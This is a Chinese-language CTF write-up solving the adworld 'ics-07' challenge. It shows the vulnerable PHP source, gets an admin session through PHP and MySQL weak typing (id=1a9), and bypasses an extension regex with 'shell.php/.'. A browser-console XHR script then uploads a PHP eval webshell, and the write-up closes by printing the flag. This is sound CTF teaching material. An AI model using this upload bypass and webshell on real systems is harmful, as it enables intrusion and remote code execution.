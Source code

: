 # ics-07

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e3928d0e-e9ed-43de-829f-699cad54f42c_2)

来看看ics系列续集。

奇怪的工控云管理系统又来了，仍然只有一个界面可以点。界面底部可以查看源代码。

```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>cetc7</title>
  </head>
  <body>
    <?php
    session_start();

    if (!isset($_GET[page])) {
      show_source(__FILE__);
      die();
    }

    if (isset($_GET[page]) && $_GET[page] != 'index.php') {
      include('flag.php');
    }else {
      header('Location: ?page=flag.php');
    }

    ?>

    <form action="#" method="get">
      page : <input type="text" name="page" value="">
      id : <input type="text" name="id" value="">
      <input type="submit" name="submit" value="submit">
    </form>
    <br />
    <a href="index.phps">view-source</a>

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>

  </body>
</html>
```

首先关注到有文件上传相关内容，但是上传的前提是session等于admin。最后一段代码有提到如何得到admin的session值——$result为True。$result为True表示需要通过最上面的if判断：if (isset(\$_GET[id]) && floatval(\$_GET[id]) !== '1' && substr($_GET[id], -1) === '9')。floatval函数获取变量的浮点值，但是遇见字母等非数值会被截断。比如122.34343The的转换结果为122.34343。知道这点后就很容易绕过if判断了，浮点值不为1且最后1位是9，1a9挺不错的，1之后会被截断，最后也是9。

可能有几个疑惑的地方，floatval("1a9")结果是1，为什么不满足条件呢？因为使用的是!==，在比较的两者之间如果值不同或者类型不同就会为True。值虽然相同了，但是类型不相同，比较的'1'是字符串而不是浮点，所以永远不会相等。那这又有问题了，既然类型无论如何都不相等，为什么一定要传1？因为下面还有mysql查询，如果查询结果为False我们也得不到admin的session值。id不是1就查不到，因此必须传1。最后的问题，这样传payload的话id不是1a9吗，为什么mysql能查出来？因为mysql也是弱类型的，查询时同样会在字母处截断，所以查询1a9相当于查询id为1。

- http://61.147.171.105:56622/index.php?page=flag.php&id=1a9
  > id: 1
<br>name:admin

成功拿到admin seesion。接下来才是重头戏，文件上传！上传出有很明显的正则过滤if(preg_match('/.+\.ph(p[3457]?|t|tml)\$/i', $filename))，用于匹配文件后缀名，不能是.php,.php3-7,.phpt和phtml。基本上把能执行的php后缀都过滤掉了。但是我们可以利用linux目录特性来上传文件。shell.php/.的最后只有.，不会被正则过滤掉，但其表示的就是shell.php。.在linux目录中表示当前目录，shell.php的当前目录那就是shell.php，那么在$f = fopen($filename, 'w');这句代码打开文件名时打开的其实是shell.php，完成写入木马。

木马的上传路径是/uploaded/backup/，上传时在文件名前拼接了backup/，写入时又使用chdir切换目录到uploaded下。注意post上传文件时不能使用bp，至少我测试是这样的，使用bp好像会因为session的问题无法上传。大佬们都用hackbar，我去网上搜了chrome控制台发post的方法。把下面的内容粘贴到chrome开发者工具console中就可以发送上传文件的post包了。

```javascript
var url = "http://61.147.171.105:56622/index.php?page=flag.php&id=1a9";
var params = "file=shell.php/.&con=<?php+@eval($_POST['shell']);?>";
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 
xhr.onload = function (e) {
  if (xhr.readyState === 4) {
    if (xhr.status === 200) {
      console.log(xhr.responseText);
    } else {
      console.error(xhr.statusText);
    }
  }
};
xhr.onerror = function (e) {
  console.error(xhr.statusText);
};
xhr.send(params);
```

通用代码，向别的url发送别的post数据只需要改最上方的url和param变量。发送成功后蚁剑连接木马，找到flag文件得到flag。

- ### Flag
  > cyberpeace{56a777c7c12695fe000d3bbeb0f68710}